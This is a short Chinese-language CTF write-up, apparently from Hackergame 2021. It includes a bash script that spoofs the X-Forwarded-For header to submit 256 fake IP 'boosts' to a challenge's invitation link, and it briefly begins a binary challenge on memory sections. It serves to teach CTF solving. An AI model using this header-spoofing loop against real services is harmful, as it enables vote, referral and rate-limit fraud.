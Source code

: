 # 0x01 总结
纯萌新，第一次打ctf，总结了几道二进制的题

本文也发布于[我的 blog ](https://lyq.blogd.club/2021/10/31/hackgame-2021-wp/)

# 0x02 助力
这题多次使用相同ip助力，会显示`重复的/8地址`。  
![](image/dup-ip.png)

F12看下post请求，payload为`ip=*.*.*.*`。所以，既然`/8`地址重复，那我们手动post，发送`ip=0.0.0.0`到`ip=255.0.0.0`的payload，共256个（后来发现，题目也必须256个人助力，正好）。

但还有一个问题，后端会检测ip，跟前端发送的ip对比，对比不通过也是不行的。  

所以在发送请求的时候加上`X-Forwarded-For`的header，构造假的client ip，这样后端拿到的client ip和前端检测的ip就对的上了。  

最后的exp如下：
```
#!/bin/bash
for i in {0..255}
do
    while true
    do
        curl -s --header "X-Forwarded-For: $i.0.0.0" -X POST -d "ip=$i.0.0.0" http://邀请链接/ | grep "成功"
        if [ $? = 0 ]
        then
            echo "助力成功"
            break
        else
            echo "助力失败 休息5秒"
            sleep 5
        fi
    done
done
```

# 0x03 Amnesia
这题有趣

## 轻度失忆
不是太难，`.data`放初始化的全局变量，`.rodata`放只读常量。所以申请几个栈上的int变量，然后给int变量赋值，memcpy到堆上，再printf即可。

